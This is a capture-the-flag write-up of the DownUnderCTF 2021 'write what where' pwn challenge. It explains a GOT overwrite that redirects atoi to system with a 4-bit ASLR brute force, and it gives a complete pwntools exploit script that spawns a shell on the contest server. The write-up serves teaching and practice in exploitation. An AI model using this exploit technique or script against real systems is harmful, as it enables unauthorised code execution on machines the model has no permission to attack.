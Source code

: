 ​**"Write what were"**

was a pwn challenge from DownUnderCTF 2021,

an easy one, were you can write a value to an address, in oneshot.. classical problem so..

let's check the protections.

![](https://github.com/nobodyisnobody/write-ups/raw/main/DownUnderCTF.2021/pwn/write.what.where/pics/checksec.png)

ok no PIE, GOT is writable..

let's have a look to the program.

![](https://github.com/nobodyisnobody/write-ups/raw/main/DownUnderCTF.2021/pwn/write.what.where/pics/reverse.png)

well nothing much to say, read an address, read value, write the value to this address..

the libc is given, so we know the different function offsets..

we will replace atoi function two lsb bytes, by system function two lsb byte, 4 bits of ASLR will be left to guess, which is very fast...

then when the replace works, the input value from 'where?', will be passed to system()

let's see in action (for the pleasure of animated gif :) )

![](https://github.com/nobodyisnobody/write-ups/raw/main/DownUnderCTF.2021/pwn/write.what.where/pics/gotshell.gif)

and here is the exploit code.

```python3
#!/usr/bin/env python
# -*- coding: utf-8 -*-
from pwn import *

context.update(arch="amd64", os="linux")
context.log_level = 'error'

exe = ELF('./write-what-where')

host, port = "pwn-2021.duc.tf","31920"

print('trying bruteforce of 4bits aslr...')
count = 0
while (True):
  print(str(count))
  count +=1
  if args.LOCAL:
    p = process(exe.path)
  else:
    p = remote(host,port)
  # first we replace exit got entry, by _start address, to do a ret2start
  p.sendafter('what?\n', p32(exe.sym['_start']))
  p.sendafter('where?\n',str(exe.got['exit']))

  # then we replace two lsb bytes of atoi got entry, by two lsb byte of system offset (needs 4 bits bruteforce)
  p.sendafter('what?\n', p32(0xda600000))
  p.sendafter('where?\n',str(exe.got['atoi']-2))

  # in case of aslr bruteforce success, atoi points now to system, so 'where?' input value, will be passed to system, we send '/bin/sh'
  p.sendafter('what?\n', p32(0xda600000))
  p.sendafter('where?\n', '/bin/sh')

  # let's try if it works
#  p.sendline('id;cat flag*')
  try:
    p.sendline('id;cat flag*')
    # if we receive back 'uid' , it worked..
    buff = p.recvuntil('uid', timeout=2)
    if 'uid' not in buff:
      continue
    break
  except:
    # if not , close connection try again
    p.close()

print(buff)
p.interactive()

```

*nobodyisnobody still pwning things..*

